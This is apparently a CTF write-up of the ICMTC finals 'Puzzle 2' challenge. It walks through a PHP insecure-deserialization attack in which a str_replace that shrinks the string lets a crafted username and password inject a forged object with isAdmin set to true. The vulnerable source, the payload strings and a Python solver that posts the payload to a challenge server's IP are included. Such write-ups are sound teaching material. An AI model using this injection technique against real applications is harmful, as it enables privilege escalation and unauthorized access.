 ```yaml
---
title: ICMTC Finals - Puzzle 2
author: 0x41ly
classes: wide
ribbon: red
header:
  teaser: /assets/images/icmtc-logo.png 
date: 2023-07-17 06:00:00 +0800
categories: CTF
description: "no one has solved Puzzle 2 in ICMTC CSC CTF Finals..."
tags: [php, insecure-deserialization]
---
```



We were provided a source code:
```php
<?php

include 'flag.php';

session_start();
class Users
{
    protected $username;
    protected $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}


isset($_GET['src']) ? highlight_file(__FILE__) : '';


if(isset($_POST['solve']))
{
    $user = new Users($_POST['username'],$_POST['password']);
    $_SESSION['user'] = serialize($user);

}
else
{
    if(!isset($_SESSION['user']))
        $user = new Users("EG-CERT","Hi!");
    else
    {
        $user = str_replace('XO', 'o', $_SESSION['user']);
        $user = unserialize($user);
    }

    if($user -> __isAdmin())
        echo $FLAG;
    else
        echo "Try Again !!";

}
?>
```

To read the Flag we must set the `isAdmin` to true 
#### **Obstacles** :
- we don't have control to the whole serialized object but only 2 variables that be used in serialization and unserialization.

#### Bypasses:
- we have a good hint here
	```php
	$user = str_replace('XO', 'o', $_SESSION['user']);
	```
	where we can manipulate the length of the serialized object before being serialized.

  #### Example 
  Lets at first see an example of a normal serialized object
  ```php
  $user= new Users("lol","lol");
  echo serialize($user);
// O:5:"Users":4:{s:11:"�*�username";s:3:"lol";s:11:"�*�password";s:3:"lol";s:14:"�Users�isAdmin";b:0;s:9:"�Users�id";s:0:"";}
```

It is very important to take care of the null bytes in the serialized object as they are considered as a part of the string length here.

#### MindSet
- We will try to manipulate the length of the serialized object before its being unserialized by using the `XO` hint
if we set the username to a `XOXOXOXOXOXO` the usernamestring will be considered as 12 byte long string but before unserialize the same object the XO will be replaced with "o" which will make the string itself 6 byte long but when unserialize the object the function will replace the missing 6 bytes with the next 6 bytes after the replacd string 
##### Example
Let's forget about the nullbytes now but we will need it later
```php
 $user = new Users("XOXOXOXOXO","");
O:5:"Users":4:
{
	s:11:"*username";
		s:10:"XOXOXOXOXO";
	s:11:"*password";
		s:0:"";
	s:14:"UsersisAdmin";
		b:0;
	s:9:"Usersid";
		s:0:"";
}
```

after this being replaced the object will be  like this
```php
O:5:"Users":4:
{
	s:11:"*username";
		s:10:"ooooo";s:1
	//and here it will gives you a parse error
	//1:"*password";s:0:"";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";}
```

What can we benefit from this?
We can force the serialized object to reconstruct itself so we can control the whole object.

The attack contains 2 parts.
##### First part -- Username
we will force the username to be equal `{n*o}";s:11:"�*�password";s:{password part payload length}:`

if we count the byte needed considering that the password payload is 2 digits long we need 26 bytes including the null bytes to be replaced so we will just write 26 `XO's`

```php
$user= new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO","{there will be a payload here}");

O:5:"Users":4:
{
	s:11:"*username";
		s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:30:"
		// here we can control the password payload
		{there will be a payload here}";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";}

```

and now it is obvious what we are going to do we will put the rest of the object n the password string.

 Second part -- Password
 What messing in the object is the Password field and the most important part which is `isAdmin` attribute 
 
 The final payload will be 
 ```php
 s:11:"�*�password";s:3:"lol";s:14:"�Users�isAdmin";b:0;s:9:"�Users�id";s:49:"
```

so when it be put all together the object look like 
``` php
O:5:"Users":4:{
	s:11:"*username";
		s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:75:";
	s:11:"*password";
		s:0:"";
	s:14:"UsersisAdmin";
		b:1;
	s:9:"Usersid";
		s:49:"";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";
}

```

So if we created the object like this 
```php
$user = new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO",";s:11:\"\0*\0password\";s:0:\"\";s:14:\"\0Users\0isAdmin\";b:1;s:9:\"\0Users\0id\";s:49:\"");
$serialized= serialize($user);
$serialized2 = str_replace('XO', 'o', $serialized);
$unser_user = unserialize($serialized2);
echo var_dump($unser_user);
```

Now we reached our objective to make the `isAdmin=true`


solver.py
```python
from requests import post
from base64 import b64decode

url = "http://139.59.129.141:8087/"
payload = ';s:11:"\x00*\x00password";s:0:"";s:14:"\x00Users\x00isAdmin";b:1;s:9:"\x00Users\x00id";s:49:"'
body = {'solve': 'true', 'username': 'XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO', 'password': payload}

# res = post("http://localhost:8080", data=body)
res = post(url, data=body)

cookie = res.headers['Set-Cookie']

print(cookie)
res = post(url , headers={'Cookie': cookie})
print(res.text)
```

![](/assets/images/puzzle2/explain.png)

![](/assets/images/puzzle2/demo.jpeg)



---
Thanks for reading our writeup